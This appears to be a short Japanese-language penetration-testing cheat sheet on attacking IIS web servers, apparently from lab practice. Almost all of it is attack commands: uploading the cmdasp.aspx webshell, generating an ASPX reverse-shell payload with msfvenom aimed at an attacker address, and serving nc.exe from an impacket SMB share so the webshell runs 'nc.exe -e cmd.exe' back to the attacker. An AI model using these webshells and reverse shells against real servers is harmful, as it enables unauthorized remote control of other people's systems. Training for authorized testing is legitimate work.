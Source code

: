 # IIS

[toc]

FTPで共有されているディレクトリを直接読むことができる場合がある。

ASP、ASPXが動作しやすい

ホームディレクトリ

```
C:\inetpub\wwwroot\
```

### webshell

```
cp /usr/share/webshells/aspx/cmdasp.aspx . 
```

http://10.11.1.13:4167/cmdasp.aspxなどのURLでアクセスする

![image-20230225172834316](img/IIS/image-20230225172834316.png)

### リバースシェル(aspx)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=4444 -f aspx > reverse.aspx
```



#### smbserver + webshell (nc.exeやaspxのリバースシェルがうまく実行しない場合）

```cmd
# kali
cp /usr/share/doc/python3-impacket/examples/smbserver.py ./
sudo /etc/init.d/smbd stop 
mkdir share			# 共有ディレクトリを作成
cp nc.exe share/	# 実行したいexeファイルをshare配下に移動
sudo python smbserver.py share smb	#smbサーバーを起動
```

```cmd
# webshellで実行
\\192.168.45.241\share\nc.exe -e cmd.exe 192.168.45.241 4444
\\<kaliのip>\share\nc.exe -e cmd.exe <kaliのip> 4444
```

